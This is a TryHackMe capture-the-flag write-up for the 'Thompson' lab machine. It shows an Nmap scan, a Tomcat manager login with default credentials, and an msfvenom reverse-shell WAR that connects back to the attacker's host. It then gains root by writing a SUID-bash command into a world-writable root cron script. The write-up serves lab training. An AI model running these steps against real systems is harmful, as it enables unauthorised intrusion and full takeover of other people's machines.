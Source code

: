 # TryHackMe
------------------------------------
### IP: 10.10.97.171
### Name: Thompson
### Difficulty: Easy
--------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the --min-rate 10000 flag to speed things up. I'll also use the -sC and -sV to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.97.171
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-13 08:10 CDT
Nmap scan report for 10.10.97.171
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc052481987eb8db0592a6e78eb02111 (RSA)
|   256 60c840abb009843d46646113fabc1fbe (ECDSA)
|_  256 b5527e9c019b980c73592035ee23f1a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.48 seconds
```

Looking at the page on port 8080 we find an Apache Tomcat 8.5.5 page

thompson_site.png

Using Feroxbuster we disciver the `/manager` endpoint:

thompson_dirs.png

This prompts a login:

thompson_login.png

And luckily for us we can use the default Tomcat credentials `tomcat:s3cret` to login:

thompson_in.png

From here we should be able to upload a malicious `.war` file to spawn a reverse shell.

### Exploitation

We can create the file using msfvenom:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.2.0.125 LPORT=443 -f war > shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes
```

We can upload and then deploy it, and view it on the site:

thompson_shell_file.png

Setting up a netcat listener we catch our shell when the file is clicked on:

```
┌──(ryan㉿kali)-[~/THM/Thompson]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.2.0.125] from (UNKNOWN) [10.10.97.171] 37876
whoami
tomcat
hostname
ubuntu
python -c 'import pty;pty.spawn("/bin/bash")'

tomcat@ubuntu:/$ 
```

We can then grab the user.txt flag in Jack's home directory:

thompson_user_flag.png

### Privilege Escalation

Looking at the other files in Jack's directory, we see an id.sh bash script, and it's output of test.txt.

thompson_files.png

id.sh is simply running the `id` command and saving it to test.txt. Looking at test.txt we can see the user issuing the `id` command is root.

Also worth noting, is the fact that id.sh has fully open permissions, meaning we can write to it.

We can confirm that id.sh is being run every minute by root as a cronjob by using `cat /etc/crontab`:

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
```

Lets change the id.sh script to set the SUID bit on bash, which will be executed by root, and then drop into a root shell ourselves:

```
tomcat@ubuntu:/home/jack$ echo '/bin/chmod 4755 /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
/bin/chmod 4755 /bin/bash
```

We can then wait one minute and run `/bin/bash -p` and we will drop into a root shell:

```
tomcat@ubuntu:/home/jack$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) groups=1001(tomcat)
```

From here we can grab the final flag:

thompson_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------